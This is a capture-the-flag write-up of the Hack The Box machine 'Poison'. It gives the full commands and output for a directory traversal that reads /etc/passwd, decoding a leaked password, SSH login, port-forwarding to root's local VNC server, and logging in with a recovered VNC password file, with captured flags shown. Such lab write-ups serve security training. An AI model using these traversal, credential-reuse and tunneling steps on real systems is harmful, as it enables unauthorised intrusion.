



# Poison - Hack the Box machine

URL: `http://10.10.10.84/browse.php?file=pwdbackup.txt`.

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=
```

After a few rounds of base64 decoding, I got the password `Charix!2#4%6&8(0`. However, it does not mention what the password is for. So, I wanted to check if it is the password for any of the users in the machine.

If we can print out a file's content by including its name in the `file` parameter, then why not try using directory travesal to print out the content of `/etc/passwd`? 

URL:`http://10.10.10.84/browse.php?file=../../../../../../../../../../../etc/passwd`



The output is a little messy, so I tidied it up here:
```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $ # 
root:*:0:0:Charlie &:/root:/bin/csh 
toor:*:0:0:Bourne-again Superuser:/root: 
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin 
operator:*:2:5:System &:/:/usr/sbin/nologin 
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin 
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin 
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin 
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin 
news:*:8:8:News Subsystem:/:/usr/sbin/nologin 
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin 
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin 
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin 
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin 
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin 
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin 
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin 
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin 
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico 
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin 
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin 
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin 
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin 
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin 
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin 
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin 
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin 
cups:*:193:193:Cups 
Owner:/nonexistent:/usr/sbin/nologin 
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

Unfortunately, there was no password hash in `/etc/passwd`. So I tried to view the master password file (freebsd's equivalent of `/etc/shadow`). However, I got permission denied. So, this method was not the right one to get the password.

 

### Owned user

Since there is no way to verify what the password `Charix!2#4%6&8(0` is for, I had to guess. It looks like its for the user `charix`. And I happened to realise that ssh port was open. So, I tried to ssh in.
```
➜  ~ nmap -Pn   10.10.10.84
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-07 13:09 +08
Stats: 0:00:29 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 69.87% done; ETC: 13:10 (0:00:13 remaining)
Stats: 0:00:48 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 90.85% done; ETC: 13:10 (0:00:05 remaining)
Nmap scan report for 10.10.10.84
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 58.19 seconds
➜  ~
```
```
➜  Poison git:(master) ✗ ssh charix@10.10.10.84
The authenticity of host '10.10.10.84 (10.10.10.84)' can't be established.
ECDSA key fingerprint is SHA256:rhYtpHzkd9nBmOtN7+ft0JiVAu8qnywLb48Glz4jZ8c.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.84' (ECDSA) to the list of known hosts.

Password for charix@Poison:
Last login: Tue Aug  7 11:49:07 2018 from 10.10.15.211
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
To clear the screen, use "clear". To re-display your screen buffer, press
the scroll lock key and use your page up button. When you're finished,
press the scroll lock key again to get your prompt back.
		-- Dru <genesis@istar.ca>
charix@Poison:~ % ls
secret		secret.zip	user.txt
charix@Poison:~ % cat user.txt
eaacdfb2d141b72a589233063604209c
charix@Poison:~ % 
```

### Owned root

I could not extract `secret.zip` on the remote machine, so I `scp`ed it to my local machine, and extracted it using the password `Charix!2#4%6&8(0`.
```
➜  Poison git:(master) ✗ unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
➜  Poison git:(master) ✗
```

However, the secret file is just some bytes. It's not a string or a clue. So, I consulted the forums for help. The hints on the hackthebox forums says follow ssh-tunnelling. They say that, VNC, and the secret file will come in handy in the privesc later on. I downloaded a script called [LinEnnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) onto charix's home directory, and ran it with the `-t` flag (for slow and complete scan). The report from the scan is in [this file](LinEnum_report).

A clue given in Hack The Box's forum on Poison states to look at processes running as root. I looked for one that allows remote login. Process `529` runs VNC as root. It fits the description given by the clues. 
```
### SERVICES #############################################
[-] Running processes:
USER   PID %CPU %MEM    VSZ   RSS TT  STAT STARTED    TIME COMMAND

[...]

root   529  0.0  0.9  23620  8872 v0- I    14:39   0:00.05 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbw
```

##### Unexpected service

There is not supposed to be a vnc running as charix listening at port 5902. But when I made the scan once, there was 1.. When I netcat into it from my computer, I saw the output `"RFB 003.008"`. That's how I realised that if a VNC service is listening, it should output "RFB". It serves no purpose in getting root. However, it helped me troubleshoot the ssh-tunneling with VNC I attempted later. 
```
charix@Poison:~ % ps aux | grep "vnc"
root    529  0.0  0.9  23620  9036 v0- I    14:39    0:00.08 Xvnc :1 -desktop X -httpd /usr/local/sh
charix 1465  0.0  0.0    412   328  1  R+   15:07    0:00.00 grep vnc
charix 1419  0.0  0.8  22692  8012  4  I    15:04    0:00.04 Xvnc :2 -desktop X -httpd /usr/local/sh
charix@Poison:~ % sockstat -l | grep "1419"
charix   Xvnc       1419  0  tcp4   *:6002                *:*
charix   Xvnc       1419  1  stream /tmp/.X11-unix/X2
charix   Xvnc       1419  3  tcp4   *:5902                *:*
charix   Xvnc       1419  4  tcp4   *:5802                *:*
charix@Poison:~ % 
```
```
➜  Poison git:(master) ✗ nc 10.10.10.84 5902
RFB 003.008
^C
```
```
ssh -L 9100:127.0.0.1:5901 -N -f -l charix 10.10.10.84
charix@Poison:~ % ls .vnc/Poison:2.log 
.vnc/Poison:2.log
charix@Poison:~ % cat .vnc/Poison:2.log
13/08/18 15:04:56 Xvnc version TightVNC-1.3.10
13/08/18 15:04:56 Copyright (C) 2000-2009 TightVNC Group
13/08/18 15:04:56 Copyright (C) 1999 AT&T Laboratories Cambridge
13/08/18 15:04:56 All Rights Reserved.
13/08/18 15:04:56 See http://www.tightvnc.com/ for information on TightVNC
13/08/18 15:04:56 Desktop name 'X' (Poison:2)
13/08/18 15:04:56 Protocol versions supported: 3.3, 3.7, 3.8, 3.7t, 3.8t
13/08/18 15:04:56 Listening for VNC connections on TCP port 5902
13/08/18 15:04:56 Listening for HTTP connections on TCP port 5802
13/08/18 15:04:56   URL http://Poison:5802
xrdb: No such file or directory
xrdb: can't open file '/home/charix/.Xresources'
charix@Poison:~ % nc 127.0.0.1 5902
RFB 003.008
```

##### Unexpected service disappeared again

The machine crashed, and I reconnected. When I made a scan again, there was no service listening on port 5902 and 5802. This is supposed to be the output of `sockstat`. Only root's VNC service listens on the local interface at ports 5901 and 5801.
```
charix@Poison:~ % sockstat -l
USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS      
[...]
root     Xvnc       529   0  stream /tmp/.X11-unix/X1
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
[...]
```
```
charix@Poison:~ % ps aux | grep "vnc"
root    529  
 0.0  0.9  23620  8872 v0- I    14:39   0:00.05 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -r
charix 1281   0.0  0.0    412   328  1  R+   14:49   0:00.00 grep vnc
charix@Poison:~ % sockstat -l | grep "529"
root     Xvnc       529   0  stream /tmp/.X11-unix/X1
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
charix@Poison:~ % 
```
I was unable to `nc` to 5901 from a remote machine (ie `nc` did not return "RFB"). This is because the xvnc service root was running faces locally only (ie to 127.0.0.1 only). We cannot connect to port 5901 as it is open to loopback only. To do so, we follow the [site](https://www.cyberciti.biz/tips/tunneling-vnc-connections-over-ssh-howto.html). Port fowarding allows us to connect to port 5901 indirectly.

```
charix@Poison:~ % ssh -L 9100:127.0.0.1:5901 -N -f -l charix 10.10.10.84
Password for charix@Poison:
charix@Poison:~ %
```

Now that port forwarding is enabled, let's try to nc to it. If indeed the vnc service listening at port 5901 is forwarded to port 9100, we would expect the output `"RFB 003.008"`. However there was not any. 
```
➜  Poison git:(master) ✗ nc 10.10.10.84 9100
➜  Poison git:(master) ✗ 
```

I checked `sockstat` again to see what services were listening at port 9100. It is ssh as expected (because we did ssh port forwarding). However, `127.0.0.1:9100` shows that we can only connect to port 9100 via loopback. In other words, we cannot connect to it via other interfaces such as from our computer.
```
charix@Poison:~ % sockstat -l | grep "9100"
charix   ssh        2315  4  tcp6   ::1:9100              *:*
charix   ssh        2315  5  tcp4   127.0.0.1:9100        *:*
```

Connecting to port 9100 via loopback gives the output `"RFB 003.008"`, confirming my theory above.
```
charix@Poison:~ % nc 127.0.0.1 9100
RFB 003.008
^C
```


So I editted the command a little. This is because I want the bind address to be `10.10.10.84` instead of `127.0.0.1` so that I can connect it from my computer.
```
charix@Poison:~ % ssh -L 10.10.10.84:9100:127.0.0.1:5901 -N -f -l charix 10.10.10.84
Password for charix@Poison:
charix@Poison:~ % sockstat -l | grep "9100"
charix   ssh        2413  4  tcp4   10.10.10.84:9100      *:*
charix   ssh        2315  4  tcp6   ::1:9100              *:*
charix   ssh        2315  5  tcp4   127.0.0.1:9100        *:*
charix@Poison:~ % 
```

This time, connecting to port 9100 from my computer via nc gives the expected output. This means we can finally connect to root's xvnc server.
```
➜  Poison git:(master) ✗ nc 10.10.10.84 9100
RFB 003.008
^C
➜  Poison git:(master) ✗ 
```


### Got root

Turns out the secret file is actually the password file for root's vnc server. I dunno why it is. But it was a random guess, and it worked.

> ** -passwd password-file**
>  
> If you are on a filesystem which gives you access to the password file used by the server, you can specify it here to avoid typing it in. It will usually be "~/.vnc/passwd".
>  
> *--vncviewer [man pages](https://linux.die.net/man/1/vncviewer)*

I had to add the flag `-quality 0` because without it, all I got was a grey screen.
```
➜  Poison git:(master) ✗ vncviewer 10.10.10.84:9100 -passwd ./secret -quality 0
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
```



I couldnt cut and paste the flag from the vncviewer, so I used nc to send the flag over to my terminal, where I can.
```
➜  Celestial git:(master) ✗ nc -l 10.10.14.151 4500
716d04b188419cf2bb99d891272361f5
➜  Celestial git:(master) ✗ 
```
